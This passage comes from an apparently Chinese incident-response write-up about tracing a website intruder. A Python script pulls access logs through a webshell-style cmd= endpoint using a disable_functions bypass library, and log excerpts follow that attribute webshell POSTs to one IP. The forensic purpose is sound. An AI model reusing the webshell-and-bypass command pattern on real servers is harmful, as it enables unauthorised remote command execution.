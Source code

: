     
    
    #coding:utf-8  
    import requests  
      
    for month in range(4,13):  
        for days in range(1,31):  
            date = '%02d' % month + '%02d' % days  
            url = 'http://www.xxxx.com/plugins/layer/mobile/need/back.php?cmd=cat%20/lnweb08/domain/3/8/5/38583/logs/access_log.2020' + date + '&outpath=/tmp/1&sopath=/lnweb08/domain/3/8/5/38583/www/plugins/layer/mobile/need/bypass_disablefunc_x.so'  
            res = requests.get(url=url)  
            fp = open(date+'.txt','w')  
            fp.write(res.content)  
            fp.close()  
    

# 3 攻击者溯源

根据上图可以看到wwConapp.php的日期为2020-11-06
09：34：19,那么比较简单粗暴的方法就是直接在20201106的访问日志里查看谁访问了这个url，初步断定攻击者

![](https://gitee.com/fuli009/images/raw/master/public/20230307164106.png)

比较诡异的是这个wwConapp.php没有人访问过，在具体翻看1106文件时发现了端倪

    
    
    115.238.195.188 - - [06/Nov/2020:09:34:37 +0800] "POST //plugins/layer/mobile/need/Conapp.php HTTP/1.1" 500 -  
    115.238.195.188 - - [06/Nov/2020:09:34:38 +0800] "POST //plugins/layer/mobile/need/Conapp.php HTTP/1.1" 200 180  
    115.238.195.188 - - [06/Nov/2020:09:34:39 +0800] "POST //plugins/layer/mobile/need/Conapp.php HTTP/1.1" 200 161  
    

这里时间点对上了，大约在9点34分，有相同目录下的文件访问，但是该文件为Conapp.php，猜测是后来的入侵者将Conapp.php改为了wwConapp.php，这里不再深究。  
至此已经获取到了第一个攻击者的ip，115.238.195.188，那么顺着这个人的访问日志，就能解开攻击入口，事实并不如此。

    
    
    #cat 1106.txt| grep 115.238.195.188 | awk '{print $1,$2,$3,$4,$5,$6,$7,$8,$9,$10}'  
    115.238.195.188 - - [06/Nov/2020:09:22:58 +0800] "POST /search/2.php HTTP/1.1" 200 161  
    115.238.195.188 - - [06/Nov/2020:09:22:59 +0800] "POST /search/2.php HTTP/1.1" 200 153  
    115.238.195.188 - - [06/Nov/2020:09:23:02 +0800] "POST /search/2.php HTTP/1.1" 200 8  
    115.238.195.188 - - [06/Nov/2020:09:23:04 +0800] "POST /search/2.php HTTP/1.1" 200 809  
    115.238.195.188 - - [06/Nov/2020:09:23:07 +0800] "POST /search/2.php HTTP/1.1" 200 7  
    115.238.195.188 - - [06/Nov/2020:09:23:07 +0800] "GET /xiseceshi.html HTTP/1.1" 200 16  
    115.238.195.188 - - [06/Nov/2020:09:23:07 +0800] "POST /search/2.php HTTP/1.1" 200 7  
    115.238.195.188 - - [06/Nov/2020:09:23:08 +0800] "POST /search/2.php HTTP/1.1" 200 7  
    115.238.195.188 - - [06/Nov/2020:09:23:08 +0800] "GET /xiseceshi.htm HTTP/1.1" 200 16  
    115.238.195.188 - - [06/Nov/2020:09:23:08 +0800] "POST /search/2.php HTTP/1.1" 200 7  
    115.238.195.188 - - [06/Nov/2020:09:23:08 +0800] "POST /search/2.php HTTP/1.1" 200 7  
    115.238.195.188 - - [06/Nov/2020:09:23:09 +0800] "GET /xiseceshi.jsp HTTP/1.1" 200 16  
    115.238.195.188 - - [06/Nov/2020:09:23:09 +0800] "POST /search/2.php HTTP/1.1" 200 7  
    115.238.195.188 - - [06/Nov/2020:09:23:09 +0800] "POST /search/2.php HTTP/1.1" 200 7  
    